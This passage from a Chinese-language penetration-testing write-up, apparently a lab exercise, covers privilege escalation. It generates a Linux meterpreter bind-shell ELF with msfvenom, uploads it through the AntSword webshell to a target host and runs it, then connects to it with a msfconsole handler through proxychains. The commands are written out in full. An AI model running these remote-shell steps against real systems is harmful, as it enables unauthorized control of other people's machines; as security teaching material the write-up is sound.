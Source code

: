 [![](assets/1705981930-e01b5d171840b7ed41d2ce1dd3423597.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240121143637-6d54be64-b827-1.png)

### 3.3 提权

使用 mefvenom 生成一个可执行的反弹 shell

```bash
msfvenom -p linux/x86/meterpreter/bind_tcp lport=9876 -f elf -o shell2.elf
```

将 elf 文件通过蚁剑上传至 Target2，赋予权限并执行

[![](assets/1705981930-bd13bf0b84ace8835c6f536a9b627a17.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240121143834-b3010f6c-b827-1.png)

开启 msfconsole 启动监听

```bash
proxychains4 msfconsole
use exploit/multi/handler
set payload linux/x86/meterpreter/bind_tcp
show options
set rhost 192.168.1.132
set lport 9876
run
```

shell 成功上线

[![](assets/1705981930-62a0a22bc61a39d861abd3b158581070.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240121143848-bbbce964-b827-1.png)
